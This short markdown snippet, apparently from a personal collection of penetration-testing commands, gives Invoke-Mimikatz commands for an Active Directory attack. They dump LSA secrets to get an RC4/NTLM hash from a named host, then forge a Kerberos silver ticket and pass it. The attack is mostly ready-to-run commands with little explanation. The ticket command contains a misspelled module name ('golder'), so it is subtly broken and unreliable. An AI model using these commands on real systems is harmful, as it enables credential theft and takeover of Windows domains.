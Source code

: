 ## 
- First Enumeratee !!
- Once everything is done


```
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName prod.research.security.local (To get RC4(Hash Ntlm) 
```
- Then Forge silver ticket and directly perform pass the ticket attack
```
Invoke-Mimikatz -Command '"kerberos::golder /user:administrator /domain:research.security.local /target:prod.research.security.local /SID:domainSID /service:someservice(CIFS in this particular case) /rc4:hashdumpedintheformofrc4 /ptt"'
```



![image](https://github.com/Luminous-split/LifeLongCommands/assets/116489011/a1311993-81fe-47d6-a85d-257eab2762bb)
